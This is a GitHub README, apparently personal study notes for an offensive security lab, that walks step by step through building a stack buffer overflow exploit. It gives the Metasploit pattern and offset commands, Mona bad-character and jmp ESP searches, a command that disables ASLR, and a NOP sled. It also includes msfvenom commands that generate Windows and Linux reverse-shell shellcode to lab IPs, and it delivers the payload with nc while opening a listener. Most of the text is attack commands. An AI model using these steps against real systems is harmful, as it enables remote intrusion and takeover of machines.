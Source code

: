 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. shortcut with Mona: !mona config -set workingfolder c:\log\%p
   !mona bytearray -> create bytearray.bin
   
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 
   
   !mona bytearray -cpb "\x00\x06\x0a\x1a\"
   
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 

4. find a jmp ESP instruction in code, so that we can put in our shellcode 
5. Windows: use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction, to fin the right address. 
   Linux: need to disable ASLR: 
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   check with: 
   cat /proc/sys/kernel/randomize_va_space
   needs to be 0, 2 means activated
    in ebd, use plugin Optcode searcher and look for ESP - EIP, and first instruction that has jmp ESP
5. take the address of jump instruction and write it backwards, ex: 0x5e9a515e -> EIP="\x5e\x51\x9a\x5e" 
6. new code: #buf = b"A" * OFFSET + EIP   
7. next add 16x NOPs: b"\x90" *16
8. new code: #buf = b"A" * OFFSET + EIP + "\x90" *16
9. create the shellcode with MSFvenom:
       msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f py -v buf -b "\x00\x06\x0a\x1a\x3b\xcf
       msfvenom -p windows/exec CMD='cmd.exe' --format c -b "\x00\x06\x0A\x1A\x3B\xCF\x0d\xff" -f raw -o exploit.txt
       msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.178 LPORT=443 -o exploit.txt -b "\x00\x0a\x1a"
       msfvenom -a x86 --platform Linux -p linux/x86/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f py -v buf -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc"
9. write final: 
                f = open("/home/kali/Downloads/exploit.txt", "wb")
                f.write(buf)
                f.close()
 10. send to server: 
 cat exploit.txt - | nc 192.168.221.52 5000
and set nc listner: nc -nvlp 443



xxd -g 1 exploit.txt -> to read out the chars 



